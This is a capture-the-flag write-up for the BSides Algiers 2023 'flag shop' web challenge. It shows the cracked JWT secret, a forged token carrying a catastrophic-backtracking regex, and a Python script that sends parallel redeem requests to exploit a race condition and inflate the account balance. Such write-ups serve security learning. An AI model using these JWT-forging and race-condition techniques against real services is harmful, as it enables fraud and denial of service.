 # bsides-algiers-2023-flagshop
Writeup for the flag shop challenge in the web category from bsides algiers ctf
# info about the challenge
- Description: They got some fancy flags out there, but that one really takes time to get.
- Solves: 7
- Author: ouxs
- The code provides is in app.py and utils.py
# solution
[home page](./writeup1.png) \
  When we first register a user to the website ,we see in the home page 3 flags and to solve the challenge we need to by the flag that has a price of 40.99.
  
  We can see that we have an initial balance of 10 and we have an option to redeem a ticket and add 10 to the balance, in order to see the format of the tickets we must see the code ,in app.py after checking the /redeem route we see many important informations in this section of the code:
  
```python
ticket = request.form["ticket"]
        token_content = jwt.decode(token, app.config['SECRET_KEY'], algorithms=["HS256"])
        username, regex = token_content["username"], token_content["ticket_regex"]
        if checkRedeem(username) and checkTicket(regex, ticket):
            userRedeem(username)
            return render_template("home.html", flags=flags, message="Ticket redeemed", balance=getBalance(username))
        else:
            return render_template("home.html", flags=flags, message="Can't redeem ticket", balance=getBalance(username))
```

   We can see that jwt is used and it has a ticket_regex in the payload, the regex is generated with the generateticket funtion in utils.py, we can clearly see that if a user uses a valid ticket once he will no longer be able to use the redeem option and thus the maximum balance he can have is 20 so we need to find a way to use the userReddem function more than once. \
   I tried cracking the jwt to get the secret key using john the ripper and the rockyou wordlist to see if i can play with the jwt payload, i found the secret key chickencurry. 
   
   After some research on how can regex be hard for computers to match against strings i found something called evil regex which are usually used for redos, so i thought of making a regex that can make the web server take long to match with the ticket so all the requests can pass the checkRedeem function before executing userRedeem. 
   
   I experimented with some regex locally and i made this one ^(a+)+$| and the ticket that i will send is "aaaaaaaaaaaaaaaaaaaaaaaa!", this will match the regex and take sometime because the webserver will try the first regex (a+)+$ which is an evil regex and does not match the ticket so it will test all the possible ways to say that it doesn't match and with the or operator it will match the second regex so we will have a matching object. 
   
   Now after finding the regex we make a jwt with that regex and make a script to send parallel requests using multiprocessing to make our balance bigger than the flag price. 
   
   here is the script:
   ```python
   import requests
from multiprocessing import Process

if __name__ == '__main__':
    # Define the URL to send the POST request to
    url = 'https://vrlmcgzdzytq6fy-flags-shop.insts.bsides.shellmates.club/redeem'

    tok="your token"
    # Define the cookies to send with the request
    cookies = {'token': tok}
    payload="aaaaaaaaaaaaaaaaaaaaaa!"
    # Define the data to send in the request body
    data = {'ticket': payload}
    # Send 5 POST requests in parallel using multiprocessing
    processlist = []
    for _ in range(0, 6):
        process = Process(target=requests.post, kwargs={"url":url,"cookies":cookies ,"data":data})
        processlist.append(process)

    for process in processlist:
        process.start()

    for process in processlist:
        process.join()
```
   edit your token cookie with the jwt that you have, now you can buy the real flag!
   
